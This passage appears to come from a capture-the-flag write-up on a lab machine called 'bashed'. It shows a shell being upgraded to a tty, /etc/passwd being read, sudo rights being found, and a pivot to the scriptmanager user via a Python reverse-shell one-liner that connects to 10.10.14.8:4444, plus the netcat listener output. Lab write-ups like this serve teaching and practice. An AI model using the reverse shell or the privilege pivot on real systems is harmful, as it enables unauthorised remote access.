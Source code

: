 I'll next use python to upgrade this dumb shell to a tty
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$ 
```

# Pivot To scriptmanager

Inside the `/etc/passwd` file there are three potential users that I can pivot to. Root would be nice but I suspect that I will have to switch to a standard user.
```
www-data@bashed:/var/www/html/dev$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
[snip]
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

Doing a little bit of enumeration as `www-data` shows that I can run any command as `scriptmanager`

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

I can use `sudo -u scriptmanager` to run the same python reverse shell done in the web-shell to get a shell as `scriptmanager`
```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Same as before I'll upgrade to a better tty shell

```
┌──(root㉿kali)-[~]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.68] 54274
$ whoami
whoami
scriptmanager
$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
scriptmanager@bashed:/var/www/html/dev$ 
```
